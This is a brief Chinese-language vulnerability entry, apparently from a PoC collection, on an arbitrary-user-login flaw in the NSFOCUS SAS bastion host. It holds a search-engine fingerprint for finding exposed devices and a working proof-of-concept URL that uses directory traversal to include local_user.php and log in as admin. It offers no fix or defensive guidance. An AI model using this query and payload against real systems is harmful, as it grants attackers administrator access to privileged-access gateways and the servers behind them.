 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

# 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面

![image-20230828162656143](images/image-20230828162656143.png)

验证POC

```
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![image-20230828162712366](images/image-20230828162712366.png)

